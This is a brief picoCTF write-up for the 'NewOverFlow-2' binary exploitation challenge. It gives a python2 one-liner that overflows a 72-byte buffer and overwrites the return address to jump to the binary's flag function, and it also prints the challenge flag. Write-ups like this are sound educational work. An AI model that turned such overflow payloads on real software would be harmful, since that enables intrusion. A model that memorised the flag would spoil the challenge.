 # NewOverFlow-2

## Binary Exploitation - Points: 250

> Okay now lets try mainpulating arguments.
>
> [vuln](vuln)
>
> [vuln.c](vuln.c)

Okay, this was probably a mistake, the binary has the same `flag` function as the previous challenge, so it is possible to get it with the same solution as before.

    $ python2 -c "print('A'*72+'\x8d\x02\x40'+'\x00'*5+'\x4d\x08\x40'+'\x00'*5)" | ./vuln

flag: `picoCTF{r0p_1t_d0nT_st0p_1t_e51a1ea0}`